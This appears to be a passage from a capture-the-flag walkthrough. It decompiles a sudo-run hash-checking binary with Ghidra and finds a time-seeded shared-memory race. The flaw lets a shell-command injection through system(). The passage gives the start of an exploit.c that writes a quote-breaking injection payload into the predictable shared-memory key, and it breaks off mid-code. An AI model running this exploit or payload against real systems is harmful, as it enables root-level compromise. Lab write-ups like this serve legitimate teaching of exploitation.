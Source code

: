 We can use ghidra to decompile the binary code and see what it’s actually doing. First transfer the file back to our attack box:

```bash
#on target
python3 -m http.server 8000

#on attack
wget http://10.10.11.56:8000/check_leak
```

From Ghidra, we go into main and read the decompiled code.

From Ghidra snippets we can reconstruct the control flow:

1. **Inputs & config**
    - `getenv("DB_*")` → pulls DB creds from the environment (set by the wrapper’s `source .env`).
    - `username = argv[1]`, `strlen(username) <= 20`.
2. **Lookup & decision**
    - `user_hash = fetch_hash_from_db(...)`
    - `check_bcrypt_in_file("/opt/hash-checker/leaked_hashes.txt", user_hash)`
    - If leaked:
        - `write_to_shm(user_hash)` → returns shared memory “key”/id and **writes a log line that includes the hash**
        - `fflush(stdout); sleep(1);` (**deliberate 1s gap**)
        - `notify_user(..., shared_memory)` → **reads from that shared memory**, extracts the bcrypt string, and builds a shell command that runs `mysql -e 'select ... "HASH"'`
        - `clear_shared_memory(...)`
3. **What matters**
    - **There’s a 1-second window between write and read**, and the read trusts whatever is in the shared memory.
    - **The later shell command is built with `system()`** and the hash is interpolated without safe quoting.

This means: even though the wrapper **sanitizes the username**, the **binary** later **trusts shared memory contents** and **injects them into a shell command** — that’s the real bug.

```bash
time_t current_time = time(0);
srand((uint)current_time);
int random_number = rand();
int shared_memory_identifier = shmget(random_number % 0xfffff, 0x400, 0x3b6);
```

- **Key generation**: `rand()` seeded with `time(0)` (seconds) → **predictable** if you know the second.
- **Key space**: `% 0xfffff` → 20-bit space, but you don’t need to brute force; you just **replicate the same seed and first `rand()` call** to get the same key immediately.
- **Flags**: `0x3b6` in hex = **octal 01666** → `IPC_CREAT | 0666`
    - `IPC_CREAT` (01000) → create if missing
    - `0666` → **world-read/write** (any process can attach and modify)

Now write the following exploit.c on the target:

```bash
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <time.h>
#include <sys/shm.h>
 
int main(int argc, char **argv) {
        srand(time(0));
        system("sudo /opt/hash-checker/check-leak.sh bob &");
        sleep(1);
 
        int shared_memory_identifier = shmget(rand() % 0xfffff,0x400,0x3b6);
        char *shared_memory_address = (char *)shmat(shared_memory_identifier,0,0);
        snprintf(shared_memory_address,0x400,"Leaked hash detected at > abc\"'; %s #", argv[1]);
```